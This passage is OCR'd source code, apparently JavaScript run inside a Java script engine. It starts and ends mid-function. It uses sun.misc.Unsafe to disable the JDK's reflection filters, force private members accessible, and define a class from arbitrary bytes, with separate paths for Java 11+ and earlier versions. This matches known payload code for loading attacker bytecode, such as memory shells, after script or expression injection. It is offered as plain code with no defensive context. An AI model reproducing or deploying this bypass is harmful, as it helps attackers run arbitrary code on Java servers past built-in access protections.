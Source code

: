 ```
        );
    }
    if (
        methodFilterMapField
            .getType()
            .isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))
    ) {
        unsafe.putObject(
            reflectionClass,
            unsafe.staticFieldOffset(methodFilterMapField),
            java.lang.Class.forName("java.util.HashMap")
                .getConstructor()
                .newInstance()
        );
    }
    removeClassCache(java.lang.Class.forName("java.lang.Class"));
}

function setAccessible(accessibleObject) {
    var unsafe = getUnsafe();
    var overrideField = java.lang.Class.forName(
        "java.lang.reflect.AccessibleObject"
    ).getDeclaredField("override");
    var offset = unsafe.objectFieldOffset(overrideField);
    unsafe.putBoolean(accessibleObject, offset, true);
}

function defineClass(bytes) {
    var clz = null;
    var version = java.lang.System.getProperty("java.version");
    var unsafe = getUnsafe();
    var classLoader = new java.net.URLClassLoader(
        java.lang.reflect.Array.newInstance(
            java.lang.Class.forName("java.net.URL"),
            0
        )
    );
    try {
        if (version.split(".")[0] >= 11) {
            bypassReflectionFilter();
            defineClassMethod = java.lang.Class.forName(
                "java.lang.ClassLoader"
            ).getDeclaredMethod(
                "defineClass",
                java.lang.Class.forName("[B"),
                java.lang.Integer.TYPE,
                java.lang.Integer.TYPE
            );
            setAccessible(defineClassMethod);
            clz = defineClassMethod.invoke(classLoader, bytes, 0, bytes.length);
        } else {
            var protectionDomain = new java.security.ProtectionDomain(
                new java.security.CodeSource(
                    null,
                    java.lang.reflect.Array.newInstance(
                        java.lang.Class.forName("java.security.cert.Certificate"),
                        0
                    )
                ),
                null,
                classLoader,
                []
            );
```